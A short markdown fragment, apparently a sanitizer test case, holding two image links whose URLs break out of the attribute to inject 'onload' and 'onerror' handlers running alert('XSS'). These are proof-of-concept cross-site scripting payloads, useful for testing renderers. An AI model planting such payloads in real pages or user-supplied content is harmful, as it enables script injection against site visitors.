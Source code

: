 ![Uh oh...](<https://www.example.com/image.png"onload="alert('XSS')>)
![Uh oh...](<"onerror="alert('XSS')>)
